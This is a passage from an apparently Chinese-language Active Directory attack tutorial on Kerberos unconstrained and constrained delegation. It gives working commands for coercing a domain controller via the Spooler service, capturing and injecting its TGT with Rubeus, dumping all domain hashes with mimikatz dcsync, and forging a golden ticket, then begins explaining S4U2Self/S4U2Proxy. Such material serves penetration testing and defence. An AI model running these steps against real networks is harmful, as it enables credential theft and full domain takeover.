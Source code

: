 向 DC 的 `Spooler` 服务发送请求，强制其访问 win7 进行身份验证：`SpoolSample.exe DC win7`

可以用 `Rubeus` 来监听 `Event ID` 为 `4624` 事件，这样可以第一时间截取到域控的，每隔一秒监听一次来自 DC 的登陆（需要本地管理员权限）TGT：`Rubeus.exe monitor /interval:1 /filteruser:DC$`

**注**：Rubeus.exe 捕获到的 TGT 是 base64 编码的，但是我们不需要解码，`Rubeus` 可以直接将 base64 编码的票据直接注入到内存中：`Rubeus.exe ptt /ticket:base64`

得到 TGT 之后，利用 PTT 将票据注入到当前会话后，可以用 `dcsync` 导出域控中所有用户的 hash，然后用 `krbtgt` 用户的 hash 生成黄金票据。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>kerberos::ptt xxxx.kirbi<br><br>lsadump::dcsync /domain:test.local /all /csv<br>``` |

## [](#3-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE)3 约束委派

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

由于非约束委派的不安全性，微软在 `windows server 2003` 中引入了约束委派，对 Kerberos 协议进行了拓展，引入了 `S4U`，其中 `S4U` 支持两个子协议：`Service for User to Self (S4U2Self)` 和 `Service for User to Proxy (S4U2proxy)`，这两个扩展都允许服务代表用户从 KDC 请求票证。`S4U2self` 可以代表自身请求针对其自身的 Kerberos 服务票据(ST)；`S4U2proxy` 可以以用户的名义请求其它服务的 ST，约束委派就是限制了 `S4U2proxy` 扩展的范围。

`S4U2Self` 和 `S4U2proxy` 的请求过程（图来自微软手册）：

其中步骤 1-4 代表 `S4U2Self` 请求的过程，步骤 5-10 代表 `S4U2proxy` 的请求过程

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200506195543.png-water_print](assets/1699409170-a4e76a60807c80600ff186ef315666cd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200506195543.png-water_print")
